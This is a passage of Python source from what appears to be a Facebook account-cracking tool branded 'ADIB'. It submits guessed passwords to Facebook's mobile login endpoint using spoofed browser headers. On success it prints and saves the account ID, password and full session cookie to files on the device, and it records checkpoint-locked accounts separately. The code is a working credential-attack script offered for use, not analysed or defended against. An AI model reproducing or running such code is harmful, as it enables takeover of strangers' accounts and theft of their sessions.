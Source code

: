             "login":"Log In"}
            header_freefb = {"authority": 'free.facebook.com',
            "method": 'GET',
            "scheme": 'https',
            "accept": 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.8',
            "accept-encoding": 'gzip, deflate, br',
            "accept-language": 'en-US,en;q=1',
            'cache-control': 'no-cache, no-store, must-revalidate',
            "referer": 'https://t.facebook.com/',
            "sec-ch-ua": '"Google Chrome";v="90", "Not)A;Brand";v="8", "Chromium";v="75"',
            "sec-ch-ua-mobile": '?1',
            "sec-ch-ua-platform": "Windows",
            "sec-fetch-dest": 'document',
            "sec-fetch-mode": 'navigate',
            "sec-fetch-site": 'same-origin',
            "sec-fetch-user": '?0',
            "pragma": 'no-cache',
            "priority": 'u=0',
            'cross-origin-resource-policy': 'cross-origin',
            "upgrade-insecure-requests": '1',
            "user-agent": pro}
            lo = session.post('https://free.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('    \033[1;32m[ADIB-OK]  ' +cid+ ' | ' +ps+    '  \n \033[1;33mCookie = \033[1;32m'+coki+  ' \n '+pro+'  \033[0;97m')
                cek_apk(session,coki)
                open('/sdcard/ADIB-OK.txt', 'a').write( cid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                print('    \33[1;30m[ADIB-CP] ' +cid+ ' | ' +ps+           '  \33[0;97m')
                open('/sdcard/ADIB-CP.txt', 'a').write( cid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(' %s[ADIB] [%s/%s]  OK:- %s  CP:- %s \r'%(H,loop,tl,len(oks),len(cps))),
        sys.stdout.flush()
    except:
        pass

ud()
